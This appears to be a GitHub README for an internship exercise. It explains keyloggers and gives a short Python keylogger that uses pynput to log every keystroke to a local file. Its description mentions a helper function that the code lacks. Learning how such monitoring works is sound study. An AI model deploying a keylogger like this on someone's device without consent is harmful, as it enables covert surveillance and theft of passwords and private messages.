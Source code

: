 # Prodigy-InfoTech-task-04
This code uses the pynput library to capture keystrokes. It defines two functions: write_to_file, which writes the pressed keys to a log file, and on_press, which is called every time a key is pressed. The on_press function then calls write_to_file to log the pressed key.

Keyloggers are programs that run as a background process on a computer or other device and collect keystrokes as a user types on their keyboard. They can be malicious or used with good intentions, depending on the goals of the person installing them. Keyloggers are notoriously known for malicious intent to collect a targeted user’s credentials and other important information, but they can also be used for parental control and child safety.

from pynput.keyboard import Listener

def on_press(key):
    try:
        # Convert the key to a string and write it to the log file
        
        
        with open("keylog.txt", "a") as f:
            
            f.write(str(key) + "\n")\
                
    except Exception as e:
        
        print(f"Error: {str(e)}")

def main():
    
    # Start the listener
    
    with Listener(on_press=on_press) as listener:
        
        listener.join()

if __name__ == "__main__":
    main()

